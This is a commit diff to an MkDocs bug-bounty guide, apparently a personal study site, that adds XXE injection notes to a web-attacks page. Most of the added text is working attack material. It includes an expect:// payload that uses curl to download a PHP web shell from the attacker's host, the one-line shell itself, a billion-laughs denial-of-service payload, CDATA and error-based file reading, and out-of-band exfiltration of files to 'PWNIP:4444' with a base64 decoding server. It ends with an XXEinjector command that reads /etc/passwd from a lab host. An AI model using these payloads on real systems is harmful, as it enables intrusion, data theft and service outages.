

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/web-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 6727 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
complete web attacks page

````diff
--- a/docs/bug-bounty-guide/web-attacks.md
+++ b/docs/bug-bounty-guide/web-attacks.md
@@ -149,6 +149,8 @@
 
 ## [XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
 
+**Tip:** May have to change GET request to POST request to add XML data
+
 ### XML
 
 ``` xml
@@ -218,10 +220,156 @@
 ]>
 ```
 
+### Identification
+
+- Find POST requests that contain XML data that accept user input
+    - Even if a web app sends JSON data we can test if it will accept XML by changing the Content-Type header to application/xml
+    - Then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm)
+- Find which elements are displayed in the response once the request is sent
+- Adjust the POST request to contain DTD and see if it gets reflected back
+![xxei identification](../images/xxei-identification.jpg)
+- Now test for LFI/the web app source code
+
+### Exploitation
+
 | Code | Description |
 |------|-------------|
 | `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
 | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
-| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
-| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
-| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
+| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter(for when referenced file is not returned because it's not in XML format) |
+| `<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">` | Download a web shell into the remote server (requires expect module installed on php server) |
+
+**Note:** We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.
+
+- Preparing shell for download:
+``` bash
+echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
+sudo python3 -m http.server 80
+```
+- SSRF style attacks can be performed to enumerate locally open ports/access restricted web pages
+- Example DOS attack:
+``` xml
+<?xml version="1.0"?>
+<!DOCTYPE email [
+  <!ENTITY a0 "DOS" > <!-- a0 Defined as DOS -->
+  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;"> <!-- a0 referenced in a1 multiple times -->
+  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;"> <!-- a1 referenced in a2 and so on to cause servers memory to run out -->
+  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
+  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
+  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
+  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
+  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
+  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
+  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
+  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
+]>
+<root>
+<name></name>
+<tel></tel>
+<email>&a10;</email>
+<message></message>
+</root>
+```
+
+
+### Advanced Exfiltration with CDATA
+
+- Exfil data wrapped in CDATA tag is considered raw data, thus special characters will not break the XML format.
+- XML prevents joining internal and external entities
+- This example exploit treats the internal entities as external entities:
+``` xml
+<!DOCTYPE email [
+  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
+  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
+  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
+  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
+  %xxe;
+]>
+
+<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
+```
+``` bash
+echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
+python3 -m http.server 8000
+```
+
+### Error Based XXE Example
+
+- Post request:
+``` xml
+<!DOCTYPE email [
+  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
+  %remote;
+  %error;
+]>
+```
+- Remote file xxe.dtd:
+``` bash
+cat > XXE.dtd << EOF
+<!ENTITY % file SYSTEM "file:///flag.php">
+<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
+EOF
+python3 -m http.server 8000
+```
+
+### Out-of-band Data Exfiltration
+
+- Post request:
+``` xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE email [
+  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
+  %remote;
+  %oob;
+]>
+<root>&content;</root>
+```
+- Remote file xxe.dtd:
+``` bash
+cat > xxe.dtd << EOF
+<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
+<!ENTITY % oob "<!ENTITY content SYSTEM 'http://PWNIP:4444/?content=%file;'>">
+EOF
+python3 -m http.server 8000
+```
+- Auto base64 decoder
+``` bash
+cat > index.php << EOF
+<?php
+if(isset($_GET['content'])){
+    error_log("\n\n" . base64_decode($_GET['content']));
+}
+?>
+EOF
+php -S 0.0.0.0:4444
+```
+
+**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data.
+
+### Automated OOB Exfiltration
+
+**[XXEinjector](https://github.com/enjoiz/XXEinjector)**
+
+- Save HTTP POST request and add XXEINJECT at the end:
+```
+POST /blind/submitDetails.php HTTP/1.1
+Host: 10.129.201.94
+Content-Length: 169
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
+Content-Type: text/plain;charset=UTF-8
+Accept: */*
+Origin: http://10.129.201.94
+Referer: http://10.129.201.94/blind/
+Accept-Encoding: gzip, deflate
+Accept-Language: en-US,en;q=0.9
+Connection: close
+
+<?xml version="1.0" encoding="UTF-8"?>
+XXEINJECT
+```
+- Run XXEinjector tool:
+``` bash
+git clone https://github.com/enjoiz/XXEinjector.git
+ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
+cat Logs/10.129.201.94/etc/passwd.log
+```
````
Also changed, not shown: docs/images/xxei-identification.jpg (added), 1 other file.
